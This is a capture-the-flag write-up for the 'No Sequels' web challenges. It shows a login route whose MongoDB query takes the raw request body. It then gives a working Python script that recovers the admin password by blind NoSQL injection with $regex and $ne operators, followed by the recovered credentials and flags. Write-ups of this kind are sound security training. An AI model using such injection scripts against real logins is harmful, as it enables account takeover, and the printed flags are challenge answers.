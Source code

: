 No Sequels & No Sequels 2
========
**Category**: web  **Points**: 50 & 80

Challenge Description
------------
We were directed to a website with the following source code

```
app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: false }));

...

router.post('/login', verifyJwt, function (req, res) {
    // monk instance
    var db = req.db;

    var user = req.body.username;
    var pass = req.body.password;

    if (!user || !pass){
        res.send("One or more fields were not provided.");
    }
    var query = {
        username: user,
        password: pass
    }

    db.collection('users').findOne(query, function (err, user) {
        if (!user){
            res.send("Wrong username or password");
            return
        }

        res.cookie('token', jwt.sign({name: user.username, authenticated: true}, secret));
        res.redirect("/site");
    });
});
```

Solution
-----------------

The hint `MongoDB is a safer alternative to SQL, right?` points us to MongoDB NoSQL injection.

In a NoSQL injection, we can abuse the operators such as $gt or $ne and perform logical evaluations with the data returned from the database query.

Note: We have to change the Content-Type header to application/json to evaluate JSON data.

![alt text][req.png]

However, I was not able to login because of the JWT token issues. I have tried performing some JWT token attacks using jwt2john.py (https://github.com/Sjord/jwtcrack/blob/master/jwt2john.py)
to crack the token secret, as well as replacing the HS256 algorithm as None however none were successful.

Fortunately, I could still perform a blind injection attack

![alt text][req2.png]

Burp > Copy as Requests and add a loop

```
import requests

burp0_url = "https://nosequels.2019.chall.actf.co:443/login"
burp0_cookies = {"token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhdXRoZW50aWNhdGVkIjpmYWxzZSwiaWF0IjoxNTU2MTg3MjA0fQ.VPJLL2Cy4893djpyDGaMZ9P_Pv8LOFn8xxH4T4EJWi0"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://nosequels.2019.chall.actf.co/login", "Connection": "close", "Upgrade-Insecure-Requests": "1", "Content-Type": "application/json"}

chars = "abcdefghijklmnopqrstuvwxyz0123456789_"
password = ''

while 1:
  for i in chars:
    burp0_json={"password": {"$regex": "^" + password + i}, "username": {"$ne": "test"}}
    r = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, json=burp0_json)
    if 'Wrong' not in r.text:
      password += i
      print password
```

We now get the password:
```
# python blind.py 
c
co
con
cong
congr
congra
congrat
congrats
congratsy
congratsyo
congratsyou
congratsyouw
congratsyouwi
congratsyouwin
```

After doing the same with username, we obtain the credentials `admin:congratsyouwin`and were able to login and solve the two challenges.

flag1: `actf{no_sql_doesn't_mean_no_vuln}`

flag2: `actf{still_no_sql_in_the_sequel}`
